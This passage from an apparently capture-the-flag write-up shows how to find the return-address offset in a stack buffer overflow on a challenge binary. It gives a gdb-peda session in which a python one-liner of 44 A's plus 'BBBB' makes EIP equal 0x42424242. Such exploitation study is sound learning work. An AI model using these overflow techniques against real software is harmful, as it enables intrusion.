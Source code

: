 Alright, a lot of new stuff at once here... What we see, using gdb-peda, is
the registers, code, stack, and some messages at the bottom. We focus on the 
stack and the messages on the bottom in this writeup.

In the messages on the bottom of the snippet above, we see that the program 
stopped due to 
`SIGSEGV`. That means the program stopped because of a segmentation fault, also
known as a segfault. In addition, we notice that the reason of the segfault is
that the address the program tried to return to is `0x41414141`. We know that
this is the return address, because it is the only thing that we can overwrite 
that may end up with the program exiting due to a segfault. 

By trial and failure, we find the exact padding for the return address. I 
usually add four B's at the end of my A's in order to know that I may replace 
the B's with the new return address. Having the right amount of padding, 
gdb-peda's output will look like this:

```
gdb-peda$ r <<< `python -c 'print "A" *44 + "BBBB"'`
My awesome banner!

Professor maritio_o:
> I've made a function for you, my magnificent students! Do a little brewing and show me what you are good for!

Student: 
Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0x31 ('1')
EBX: 0x41414141 ('AAAA')
ECX: 0xffffd0a0 ('A' <repeats 44 times>, "BBBB\n\320\377\377")
EDX: 0x80 
ESI: 0xf7fb3000 --> 0x1d7d6c 
EDI: 0x0 
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd0d0 --> 0xffffd00a --> 0x83540000 
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffd0d0 --> 0xffffd00a --> 0x83540000 
0004| 0xffffd0d4 --> 0x0 
0008| 0xffffd0d8 --> 0x0 
0012| 0xffffd0dc --> 0xf7df3e81 (<__libc_start_main+241>:	add    esp,0x10)
0016| 0xffffd0e0 --> 0xf7fb3000 --> 0x1d7d6c 
0020| 0xffffd0e4 --> 0xf7fb3000 --> 0x1d7d6c 
0024| 0xffffd0e8 --> 0x0 
0028| 0xffffd0ec --> 0xf7df3e81 (<__libc_start_main+241>:	add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$ 
```
